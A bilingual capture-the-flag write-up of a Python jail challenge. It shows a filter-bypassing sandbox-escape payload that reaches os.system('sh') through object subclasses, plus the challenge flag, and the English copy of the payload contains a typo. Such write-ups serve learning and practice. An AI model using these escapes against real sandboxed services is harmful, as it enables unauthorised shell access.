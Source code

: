 #### Categorie: PWN
#### **Author**: 5c0r7
#### Solve: 15/20 
#### Points: 500 pts (at first)| 360 pts (at end)

#### Write-up by:[0xJekyll](https://twitter.com/Ted_Kouhouenou) 

### Description : 
#### **[FR]**
Un autre jail, échappe les filtres.
#### **[EN]**
Another jail, bypass the filters.

`nc 54.37.70.250 1004`


## Solution :
### Fr Version : 

`For ENG version scroll down` 

![prison](Images/gankpame2.png)

Ce châle fait référence au Chall du Qualification Stage des qualifications du HackerLab 2023[gankpame](https://github.com/Tednoob17/HackerLab2023/blob/main/Qualifications%20Stages/HackerLab2023%20-%20Gankpa%20M%C9%9B.pdf)  <- (Le writeup)

Comme lors de la premiere parie de ce chall, nous avions utilisé un payload python 
et aussi comme lors de la première partie nous avions des restrictions sur le payload à utiliser lui même comme la longueur de la chaîne à utiliser ainsi que des fonctions interdites,ici, nous avons des filtres qui nous empêche d'effectuer certaines actions.
```python3
__builtins__['a']=__builtins__
a['b']=().__class__.__bases__
a['c']=b[0].__subclasses__()
a['d']=c[59].__init__
a['e']=d.__getattribute__
a['f']=e("func_globals")
a['g']=f['LINECACHE'.lower()]
a['h']=g.__dict__
a['i']=h['OS'.lower()]
a['j']=i.__dict__ 
j['SYSTEM'.lower()]('sh')
```

Ce payload nous permet de réduire la taille en faisant des affectations continues de la chaîne du payload precedent en démarrant par les *builtins* la première classe de base et en descendant vers les sous-classes, afin d'obtenir une fonction pouvant nous aider à avoir un shell pour pouvoir afficher le flag qui ici est un fichier caché.

![cache](Images/prison.png)

Flag : `CTF_d33p_1n5Pe(tion_0bJecT_Byp@Ss_b4s!c_Fi1t3r`


------------------------------------------------------------------------
### Eng Version 


![prison](Images/gankpame2.png)

This chall refers to the HackerLab 2023 Qualification Stage Qualification Chall
[gankpame](https://github.com/Tednoob17/HackerLab2023/blob/main/Qualifications%20Stages/HackerLab2023%20-%20Gankpa%20M%C9%9B.pdf) <- (The writeup)


As in the first part of this chall we used a python payload
and also like in the first part we had restrictions on the payload to use itself such as the length of the chain to use as well as prohibited functions, here we have filters and the restrictions on the size of the payload are still present .
```python3
__builtins__['a']=__builtins__
a['b']=().__class.bases__
a['c']=b[0].__subclasses__()
a['d']=c[59].__init__
a['e']=d.__getattribute__
a['f']=e("func_globals")
a['g']=f['LINECACHE'.lower()]
a['h']=g.__dict__
a['i']=h['OS'.lower()]
a['j']=i.__dict__ 
j['SYSTEM'.lower()]('sh')
```
This payload allows us to reduce the size by making continuous assignments of the chain of the previous payload by starting with the *builtins* the first base class and going down to the subclasses in order to obtain a function that can help us to have a shell to be able to display the flag which here is a hidden file.

![cache](Images/prison.png)

Flag : `CTF_d33p_1n5Pe(tion_0bJecT_Byp@Ss_b4s!c_Fi1t3r`
